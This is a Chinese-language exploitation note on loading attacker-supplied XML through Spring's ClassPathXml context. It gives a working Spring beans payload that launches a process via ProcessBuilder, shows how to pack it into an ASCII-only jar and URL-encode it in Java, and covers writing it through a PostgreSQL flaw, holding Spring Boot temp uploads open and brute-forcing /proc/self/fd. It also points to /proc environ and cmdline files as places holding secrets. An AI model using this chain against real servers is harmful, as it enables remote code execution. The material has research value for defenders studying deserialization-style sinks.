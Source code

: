 # ClassPathXml

这里的利用关键是，能不能上传xml文件到可控路径。

## PostgreSql写入ascii.jar!/exp.xml

首先，需要明白有这么几个事实

1、jar文件本质就是zip

2、zip文件在文件前后添加脏字符，不影响文件本身

3、xml文件前后不能出现脏字符

4、ClassPathXml读取文件时，文件不能出现非ascii字符。jar:file:///D:/ascii.jar!/1.xml时，ascii.jar中也不能出现非ascii字符

5、postgresql通过漏洞写文件时，前后会出现脏字符



接下来讲漏洞利用。

首先创建exp.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>cmd</value>
                <value>/c</value>
                <value>calc</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

接下来利用https://github.com/c0ny1/ascii-jar 项目的ascii-jar-2.py，制作全都是ascii范围内的jar包。注意PADDING_DATA要放到末尾，因为xml文件开头是固定的。

![img](img_Sink/image.png)

制作出来的jar包，范围都在00~7F内：

![img](img_Sink/image-1759327498471.png)

接下来对jar包进行URL编码，这里使用Java脚本，如果用python的话，一定要确定自己编码后的格式正确：

```java
public class UrlEncodeFile {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("./ascii.jar"));
        String encode = URLEncoder.encode(new String(bytes), "utf-8");
        System.out.println(encode);
    }
}
```

然后通过postgre漏洞写文件：

![image-20251001230520878](img_Sink/image-20251001230520878.png)

最后通过ClassPathXml读取：

![img](img_Sink/image-1759327506920.png)



## springboot临时文件法

### 一个请求

发送一个请求，其中带有临时文件和xml加载路径。



![img](img_Sink/image-1759327506897.png)

### 异步请求

先发送临时文件请求，主要目标是这个临时文件要长期存活。

可以通过修改Content-Length + 删掉 boundary  + 大段空格 实现。



![img](img_Sink/image-1759327515374.png)

然后再正常发送另一个利用请求即可

### 爆破fd

通过 file:///proc/self/fd/xxx 去访问产生的临时文件，这里解释一下。

一般获取一个进程的信息时，是通过 /proc/pid 的方式去获取。但是一个进程如果想获取自身的信息，再去填pid就显得多此一举。所以提供了 /proc/self 的方式，允许进程直接访问自身信息。所以，对应不同进程来说，/proc/self 的结果是不一样的。而fd目录是file descriptor，文件描述符，该目录存储了指向当前进程操作过的文件的软连接，以数字0开始命名，通过它可以获取进程中有关的配置文件等。所以可以通过遍历 fd 的方式去加载临时文件。

顺便补充一下 /proc 里面的其他目录。

/proc/pid/cmdline存储了启动该进程的shell命令

cwd是一个软连接，指向进程运行目录

environ文件存储了进程的环境变量

详细请搜索：Linux 进程信息目录 /proc

## 其他能够实现文件上传的

能找到的文件上传点。



